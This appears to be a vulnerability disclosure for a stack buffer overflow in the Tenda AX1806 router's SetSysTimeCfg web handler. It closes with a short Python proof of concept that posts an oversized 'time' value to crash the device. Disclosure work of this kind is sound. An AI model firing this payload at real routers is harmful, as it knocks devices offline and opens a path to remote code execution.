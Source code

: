 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html



There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v6` variable is directly retrieved from the http request parameter `time`.

Then `v6` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220208175329650](image/1.png)

So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** or **Deny of Service(DoS)** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "https://192.168.2.1/goform/SetSysTimeCfg"

timeType = "manual"

time = b"2022-01-01 "
time += b"a"*0x2000
r = requests.post(url, data={'timeType': timeType, 'time': time},verify=False)
print(r.content)
```


